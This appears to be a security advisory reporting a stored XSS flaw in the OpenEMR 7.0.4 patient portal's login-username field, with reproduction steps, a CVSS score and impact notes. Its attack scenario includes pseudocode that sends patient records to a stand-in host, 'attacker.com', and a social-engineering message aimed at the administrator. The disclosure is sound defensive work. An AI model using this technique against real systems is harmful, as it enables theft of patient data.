




# Stored XSS in patient portal_login_username

## Description

In **OpenEMR**, a **Native Patient Portal** is included which can be enabled by the administrator. The portal allows selected patients to log in and view their appointment details, edit their personal information, sign forms, and so on. Patients with portal access can also freely change their login username to any string. Access to the portal can be enabled and edited for any patient by any **OpenEMR** user belonging to any of the default groups (`Accounting`, `Administrators`, `Clinicians`, `Emergency Login`, `Front Office`, and `Physicians`).

A stored XSS vulnerability was identified in the portal credential reset functionality. The reset form, available for seemingly any user with basic patient data access, outputs the patient's arbitrary login username as unescaped HTML. This allows authenticated attackers with patient portal credentials to enter malicious JavaScript payloads into the system, which are later executed by **OpenEMR** users, like the instance administrator, when they go to reset the attacker user's credentials.

## Severity

CVSS:4.0/AV:N/AC:L/AT:P/PR:L/UI:P/VC:H/VI:H/VA:L/SC:N/SI:N/SA:N

## Environment

Debian 13 LAMP stack. Packages installed with `apt`:

```text
apache2 mariadb-server mariadb-client php php-cli php-common php-mysql libapache2-mod-php php-curl php-gd php-mbstring php-xml php-zip
```

**OpenEMR** 7.0.4 installed with the wiki installation guide: https://www.open-emr.org/wiki/index.php/OpenEMR_7.0.4_Linux_Installation

Instance in internal VM network, accessed at `http://192.168.122.122/openemr/`. Diagnostics:



**OpenEMR Native Patient Portal** enabled according to the wiki guide: https://www.open-emr.org/wiki/index.php/Patient_Portal

Portal accessed at `http://192.168.122.122/openemr/portal/`. Settings:



## Steps to reproduce

1.  Log in to the main **OpenEMR** instance with a user that can view basic patient data. In a default installation, this seems to be *any* user in *any* of the default groups. In this example, the account `administrator` in the group `Administrators` was used
    
2.  Create a new patient or select an existing one via **Patient > New/Search**. In this example, a patient named `Portal1 Patient1` was selected
    
3.  Navigate to the patient's dashboard via **Patient > Dashboard**
    
4.  Edit the **Demographics** card and select `Allow Patient Portal=YES` under **Choices**. Click **Save**
    
5.  Under **Patient Portal / API Access**, click **Credentials > Reset** and set some password. Note down the variables. In this example, they were the following:
    
    ```text
    Account Name=Portal1Patient11
    Login User Name=Portal1Patient11
    Password=Password_111
    Disable forced credential reset=true
    ```
    
6.  Click **Save**. Ignore any email sending error, not relevant
    
7.  Log out of **OpenEMR** and clear cache (or use another browser)
    
8.  Navigate to the **OpenEMR Portal** and login with the credentials from step 5
    
9.  Navigate to **Settings > Manage Login Credentials**
    
10. Enter the following XSS payload to both the **Change Username** and **Confirm Username** fields:
    
    ```html
    ">
    ```
    
11. Enter the passwords (can be the same) and click **Save**  
    
    
12. Log out of the **OpenEMR Portal** and clear cache again (or use another browser)
    
13. Log back in to the main **OpenEMR** instance with a user that can view basic patient data. It can be the same user as in step 1
    
14. Navigate to **Patient > New/Search** and search for the patient from step 2
    
15. Under the patient's **Dashboard**, click **Credentials > Reset** and the XSS fires:  
    
    

## Impact

Allows any authenticated user with patient portal access to inject arbitrary JavaScript code into the system by entering malicious payloads to the login username.

The payload is later executed by any **OpenEMR** user belonging to any of the default groups (`Accounting`, `Administrators`, `Clinicians`, `Emergency Login`, `Front Office`, and `Physicians`) if they navigate to the patient's dashboard and try to reset their credentials.

An attacker could leverage the XSS to hijack sessions, execute unauthorized actions, or exfiltrate sensitive information such as patient records and credentials.

An example attack scenario would be:

- Attacker gets access to some patient's portal credentials through purchasing a data dump from the darkweb, e.g. from malicious browser add-ons
    
- Attacker logs into the patient portal
    
- Attacker changes their login username to XSS payload, pseudocode:
    
    ```javascript
    <script>
        if openemr.site_administrator:
            exfil = new Array();
            exfil[patients] = openemr.getPatients();
            exfil[appointments] = openemr.getAppointments();
            exfil[documents] = openemr.getDocuments();
            [...etc...]
            http_request('https://attacker.com/', POST_data=exfil.json())
        else:
            openemr.sendMessage('administrator', 'Hey, check out $malicious_patient credentials')
    </script>
        
        
    ```
    
- Attacker sends the **OpenEMR** instance administrator a message through the portal's **Secure Messaging**:
    
    ```text
    Hey, 
    
    I've been having issues with my portal account lately, don't know what's wrong. Could you reset my credentials please?
    
    Best regards,
    Definitely not an attacker
    ```
    
- Administrator logs into **OpenEMR** and checks their portal messages, sees the previous
    
- Administrator navigates to the patient's dashboard and clicks **Credentials > Reset**
    
- XSS fired, attacker gets all patient data in instance
    

## Code References

https://github.com/openemr/openemr/blob/855804b3e37201b3246596ce888837d7369ce5eb/templates/patient/portal_login/print.html.twig#L83

## External references

https://owasp.org/www-community/attacks/xss/

https://portswigger.net/web-security/cross-site-scripting
